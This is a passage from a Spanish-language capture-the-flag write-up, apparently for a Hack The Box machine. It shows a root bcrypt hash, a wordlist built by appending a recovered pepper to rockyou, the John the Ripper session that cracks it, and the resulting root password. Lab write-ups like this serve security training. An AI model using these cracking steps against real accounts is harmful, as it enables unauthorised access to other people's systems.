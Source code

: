 ![](https://i.imgur.com/Np2UNo3.png)

Tal vez la estructura del **hash** se pueda ver algo asi **$2b$05$H34vyR41n...** 

Ahora con esto podemos crackear el hash original de **root** que obtuvimos al principio

```bash
❯ catn roothash
root:$2a$05$FESATmlY4G7zlxoXBKLxA.kYpZx8rLXb2lMjz3SInN4vbkK82na5W
```

Ahora podemos agregarla al **rocyou.txt** 

```bash
❯ sed 's/$/H34vyR41n/' /usr/share/wordlists/rockyou.txt > newwordlist.txt
```

Y Ahora lo crackeamos

```bash
❯ john --wordlist=newwordlist.txt roothash
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 32 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
246813579H34vyR41n (root)     
1g 0:00:00:06 DONE (2024-01-01 16:51) 0.1445g/s 1373p/s 1373c/s 1373C/s exoticH34vyR41n..12356H34vyR41n
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Ahora simplemente migramos a **root**

```bash
❯ ssh -i id_rsa jack@10.10.11.184
Welcome to Ubuntu 22.04.1 LTS (GNU/Linux 5.15.0-50-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon  1 Jan 22:52:55 UTC 2024

  System load:                      0.0537109375
  Usage of /:                       65.0% of 5.13GB
  Memory usage:                     12%
  Swap usage:                       0%
  Processes:                        231
  Users logged in:                  1
  IPv4 address for br-a3f745892c3b: 172.18.0.1
  IPv4 address for docker0:         172.17.0.1
  IPv4 address for eth0:            10.10.11.184
  IPv6 address for eth0:            dead:beef::250:56ff:feb9:5cca


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Mon Jan  1 22:06:55 2024 from 10.10.14.58
```